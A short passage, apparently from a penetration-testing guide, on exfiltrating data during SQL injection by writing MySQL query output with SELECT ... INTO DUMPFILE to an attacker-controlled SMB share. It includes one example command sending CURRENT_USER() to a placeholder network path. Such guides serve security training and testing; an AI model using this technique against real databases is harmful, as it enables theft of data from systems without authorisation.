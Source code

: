 
### File Share Exfiltration

In some circumstances, we may be able to exfiltrate data to an SMB network share. In MySQL you can leverage `SELECT ... INTO OUTFILE`{:.language-sql .highlight} or `SELECT ... INTO DUMPFILE`{:.language-sql .highlight} ([MySQL](https://dev.mysql.com/doc/refman/8.0/en/select-into.html)). For example:

```sql
SELECT CURRENT_USER() INTO DUMPFILE '\\\\192.168.x.x.\\sql\\current_user.txt';
```

This will allow us to execute arbitrary SQL commands and save the output to a network share that we control.

